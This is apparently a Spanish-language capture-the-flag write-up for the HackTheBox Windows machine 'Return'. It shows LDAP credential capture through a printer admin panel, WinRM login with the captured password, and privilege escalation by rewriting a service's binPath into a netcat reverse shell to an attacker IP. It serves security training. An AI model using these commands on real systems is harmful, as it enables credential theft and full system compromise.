## Introducción
El día de hoy veremos la máquina **Return** de la plataforma de HackTheBox. Se trata de una máquina Windows de nivel fácil que aborda los siguientes conceptos:

- Abusing Printer
- Abusing Server Operators Group
- Service Configuration Manipulation

## Resolución

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:
```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.95.241 -oN puertos.txt
```
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-16 11:55:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 33m23s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-16T11:56:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.26 seconds
```

Identificamos múltiples puertos abiertos característicos de un entorno Windows con Active Directory. Los servicios más relevantes para nuestra explotación son: HTTP (80), SMB (445) y WinRM (5985).

### Puerto 445 - SMB
Utilizando las herramientas `netexec` y `smbmap`, comprobamos el acceso mediante null session sin obtener resultados significativos:



### Puerto 80 - HTTP
Al explorar el puerto 80, nos encontramos con un panel de administración de impresoras:



Durante la navegación por las diferentes secciones, observamos un apartado denominado "Settings" que expone la configuración de conexión de la impresora, incluyendo la dirección del servidor, puerto, usuario y contraseña:



Esta funcionalidad presenta una oportunidad para capturar credenciales. Modificamos la dirección del servidor para apuntar a nuestra máquina atacante y así interceptar las credenciales de autenticación.

Nos ponemos en escucha con `netcat` en el puerto 389 (LDAP), que es el protocolo utilizado por defecto para la autenticación:
```bash
nc -lvnp 389
```



Actualizamos la configuración en el panel web y recibimos una conexión que expone las credenciales del usuario:



**Credenciales obtenidas:**
- Usuario: `svc-printer`
- Contraseña: `1edFg43012!!`

# Explotación

### Puerto 5985 - WinRM
Como identificamos en el escaneo inicial, el puerto 5985 (WinRM) está abierto. Si el usuario `svc-printer` pertenece al grupo "Remote Management Users", podremos obtener acceso remoto al sistema utilizando las credenciales capturadas.

Utilizamos `evil-winrm` para establecer la conexión:
```bash
evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```



Obtenemos acceso exitoso al sistema. La flag de usuario se encuentra en el escritorio del usuario `svc-printer`:



# Escalada de privilegios

Durante la enumeración de los grupos a los que pertenece el usuario, identificamos su membresía en el grupo `Server Operators`:



El grupo **Server Operators** otorga privilegios para administrar servicios del sistema, incluyendo la capacidad de iniciar, detener y modificar servicios. Esto representa un vector de escalada de privilegios, ya que podemos modificar la ruta binaria de un servicio para ejecutar comandos arbitrarios con privilegios SYSTEM.

Para explotar esta configuración, transferimos `netcat` a la máquina víctima:
```bash
upload /usr/share/windows-resources/binaries/nc.exe C:\Users\svc-printer\Desktop\nc64.exe
```



Enumeramos los servicios disponibles en el sistema para identificar un servicio modificable:
```bash
services
```



Procedemos a modificar el servicio `VMTools`, cambiando su ruta binaria para ejecutar una reverse shell con `netcat`:
```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd 10.10.14.125 9001"
```



Nos ponemos en escucha en nuestra máquina atacante:
```bash
nc -lvnp 9001
```

Iniciamos el servicio modificado:
```bash
sc.exe start VMTools
```

Recibimos una shell con privilegios de SYSTEM. La flag de root se encuentra en `C:\Users\Administrator\Desktop\root.txt`.

¡Ya somos administradores! 🎉